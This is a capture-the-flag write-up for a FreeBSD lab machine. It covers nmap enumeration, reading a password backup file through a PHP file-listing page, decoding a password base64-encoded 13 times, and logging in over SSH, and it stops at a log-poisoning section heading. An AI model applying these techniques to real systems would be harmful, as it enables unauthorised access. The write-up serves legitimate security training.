



<br />


<br />

OS -> FreeBSD.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start with a standard `nmap` scan to identify open ports and running services:

<br />

```bash
❯ nmap -p- 10.10.10.84  --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-06 20:29 CEST
Nmap scan report for 10.10.10.84
Host is up (0.042s latency).
Not shown: 60743 filtered tcp ports (no-response), 4790 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.36 seconds
```

<br />

Open Ports:

`Port 22` -> SSH 

`Port 80` -> HTTP 

<br />

# HTTP Enumeration: - Port 80

<br />

We begin exploring the HTTP website:

<br />



<br />

Apparently, there is a temporary page for testing `.php` tools.

<br />

### listfiles.php

<br />

If we visit `/listfiles.php` path, we see a list of filenames:

<br />



<br />

One of them, named `pwdbackup.txt`, seems particularly interesting.

Entering this filename into the `Scriptname` field on the main page returns some content:

<br />



<br />

## Exploitation 1 - Base64 Password Decode

<br />

The content is a `password` that has been `base64`-encoded multiple times, specifically, 13 times.

We can easily decode this password using a Bash one-liner.

First, we save the base64 content into a file:

<br />

```bash
❯ /usr/bin/cat encoded_text
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

<br />

Then, we decode it using the following Bash one-liner:

<br />

```bash
❯ file="$(cat encoded_text)"; for i in $(seq 1 13); do file="$(echo "$file" | base64 -d)"; done; echo $file
Charix!2#4%6&8(0
```

<br />

This gives us a new password: `Charix!2#4%6&8(0`

Using it, we can connect via SSH to the target machine as user `charix`:

<br />

```bash
❯ ssh charix@10.10.10.84
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
...[snip]...
	http://www.freshports.org/
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ % id    
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

<br />

# Exploitation 2 - LFI to RCE (Log Poisoning)

<br />

